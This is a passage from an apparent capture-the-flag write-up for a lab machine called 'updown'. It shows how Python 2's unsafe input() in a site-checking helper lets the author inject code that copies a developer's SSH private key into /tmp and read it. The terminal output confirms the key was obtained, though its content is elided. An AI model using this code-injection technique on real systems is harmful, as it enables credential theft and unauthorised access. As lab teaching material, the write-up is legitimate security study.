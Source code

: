 ```bash
-rwxr-x--- 1 developer www-data 154 Jun 22  2022 /home/developer/dev/siteisup_test.py
www-data@updown:/home/developer$ cat /home/developer/dev/siteisup_test.py
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
        print "Website is up"
else:
        print "Website is down"

www-data@updown:/var/www/dev/uploads/3b8f7dcbcb24fc8e95da41b7b3fc5d0c$ python --version
</3b8f7dcbcb24fc8e95da41b7b3fc5d0c$ python --version                   
Python 2.7.18
```

The executable seemed to be using a python script to check if a site was up. The script was using `input` to get the URL to check. Python 2 has a [known vulnerability](https://www.geeksforgeeks.org/vulnerability-input-function-python-2-x/) in input. I used it to copy developer's ssh key where I could read it.

```bash
www-data@updown:/home/developer/dev$ ./siteisup                                                                      
Welcome to 'siteisup.htb' application                                                                                
                                                                                                                     
Enter URL here:open('/tmp/key', 'w').write(open('/home/developer/.ssh/id_rsa').read())
Traceback (most recent call last):                                                                                   
  File "/home/developer/dev/siteisup_test.py", line 4, in <module>    
    page = requests.get(url)                                                                                         
  File "/usr/local/lib/python2.7/dist-packages/requests/api.py", line 75, in get
    return request('get', url, params=params, **kwargs)
  File "/usr/local/lib/python2.7/dist-packages/requests/api.py", line 61, in request
    return session.request(method=method, url=url, **kwargs)
  File "/usr/local/lib/python2.7/dist-packages/requests/sessions.py", line 515, in request
    prep = self.prepare_request(req)
  File "/usr/local/lib/python2.7/dist-packages/requests/sessions.py", line 453, in prepare_request
    hooks=merge_hooks(request.hooks, self.hooks),
  File "/usr/local/lib/python2.7/dist-packages/requests/models.py", line 318, in prepare
    self.prepare_url(url, params)
  File "/usr/local/lib/python2.7/dist-packages/requests/models.py", line 392, in prepare_url
    raise MissingSchema(error)
requests.exceptions.MissingSchema: Invalid URL 'None': No scheme supplied. Perhaps you meant http://None?
www-data@updown:/home/developer/dev$ ls /tmp/
error-output.txt  key
www-data@updown:/home/developer/dev$ cat /tmp/key 
-----BEGIN OPENSSH PRIVATE KEY-----
...
-----END OPENSSH PRIVATE KEY-----
www-data@updown:/home/developer/dev$ 
```
